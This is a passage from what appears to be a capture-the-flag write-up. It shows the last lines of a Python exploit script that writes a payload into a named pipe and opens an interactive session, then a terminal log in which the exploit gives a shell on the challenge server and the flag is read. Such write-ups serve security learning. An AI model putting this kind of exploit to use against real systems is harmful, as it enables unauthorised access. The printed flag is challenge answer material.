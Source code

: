 ```python
# gdb.attach(vp)

with open("./fifo", "w") as f:
    f.write(payload)

vp.interactive()

log.info("removing fifo ")
subprocess.check_call(["rm", "./fifo"])
```

Using this we get a shell. On the challenge ssh server:

```
chall@e39e5ded74c2:/tmp/tmp.dzF4rbAhky$ ls
fifo  payload
chall@e39e5ded74c2:/tmp/tmp.dzF4rbAhky$ ~/pwn ./fifo &
[1] 11429
chall@e39e5ded74c2:/tmp/tmp.dzF4rbAhky$ cat payload > fifo
The file has been saved successfully
chall@e39e5ded74c2:/tmp/tmp.dzF4rbAhky$ fg
~/pwn ./fifo
$ ls
fifo  payload
$ cd /home/chall
$ ls
flag  pwn
$ cat flag
rUN!RuN$RUn!Y0U$W1N_TH3_R4c3
```
